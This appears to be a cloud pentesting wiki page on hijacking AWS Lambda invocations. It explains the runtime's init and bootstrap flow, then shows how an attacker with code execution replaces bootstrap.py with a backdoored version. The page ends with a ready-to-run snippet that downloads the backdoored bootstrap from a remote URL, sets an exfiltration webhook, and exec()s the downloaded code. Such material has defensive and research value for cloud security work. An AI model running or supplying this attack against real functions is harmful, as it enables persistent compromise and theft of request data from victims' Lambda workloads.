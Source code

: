 # AWS - Steal Lambda Requests

## Lambda Flow

![](../../../../images/image (341).png)

*<https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png>*

1. **Slicer** is a process outside the container that **send** **invocations** to the **init** process.
2. The init process listens on port **9001** exposing some interesting endpoints:
   - **`/2018-06-01/runtime/invocation/next`** – get the next invocation event
   - **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – return the handler response for the invoke
   - **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – return an execution error
3. **bootstrap.py** has a loop getting invocations from the init process and calls the users code to handle them (**`/next`**).
4. Finally, **bootstrap.py** sends to init the **response**

Note that bootstrap loads the user code as a module, so any code execution performed by the users code is actually happening in this process.

## Stealing Lambda Requests

The goal of this attack is to make the users code execute a malicious **`bootstrap.py`** process inside the **`bootstrap.py`** process that handle the vulnerable request. This way, the **malicious bootstrap** process will start **talking with the init process** to handle the requests while the **legit** bootstrap is **trapped** running the malicious one, so it won't ask for requests to the init process.

This is a simple task to achieve as the code of the user is being executed by the legit **`bootstrap.py`** process. So the attacker could:

- **Send a fake result of the current invocation to the init process**, so init thinks the bootstrap process is waiting for more invocations.
  - A request must be sent to **`/${invoke-id}/response`**
  - The invoke-id can be obtained from the stack of the legit **`bootstrap.py`** process using the [**inspect**](https://docs.python.org/3/library/inspect.html) python module (as [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) or just requesting it again to **`/2018-06-01/runtime/invocation/next`** (as [proposed here](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Execute a malicious **`boostrap.py`** which will handle the next invocations
  - For stealthiness purposes it's possible to send the lambda invocations parameters to an attackers controlled C2 and then handle the requests as usual.
  - For this attack, it's enough to get the original code of **`bootstrap.py`** from the system or [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), add the malicious code and run it from the current lambda invocation.

### Attack Steps

1. Find a **RCE** vulnerability.
2. Generate a **malicious** **bootstrap** (e.g. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Execute** the malicious bootstrap.

You can easily perform these actions running:

```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

For more info check [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

